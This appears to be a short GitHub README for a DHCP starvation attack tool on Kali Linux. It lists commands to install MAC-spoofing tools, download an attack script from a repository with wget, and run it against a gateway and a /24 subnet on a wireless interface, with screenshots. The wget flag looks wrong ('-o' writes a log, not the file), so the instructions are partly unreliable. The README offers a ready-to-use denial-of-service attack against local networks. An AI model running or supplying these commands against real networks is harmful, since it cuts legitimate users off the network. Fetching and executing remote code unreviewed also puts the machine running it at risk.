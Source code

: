 # $${\color{orange}Installation}$$
- $${\color{cyan}dependencies}$$
```
sudo apt update
sudo apt install macchanger isc-dhcp-client bc -y
```
- $${\color{cyan}download}$$
```
wget -o dhcp https://raw.githubusercontent.com/xiv3r/dhcp-starvation/refs/heads/main/kali/dhcp && chmod 700 dhcp
```
- $${\color{cyan}run}$$
```
bash dhcp -i wlan0 -g 192.168.1.1 -s 192.168.1.1/24
```
<img src="https://github.com/xiv3r/dhcp-starvation/blob/main/kali/images/Screenshot_2025_0427_085922.png">

<img src="https://github.com/xiv3r/dhcp-starvation/blob/main/kali/images/Screenshot_2025_0427_085944.png">

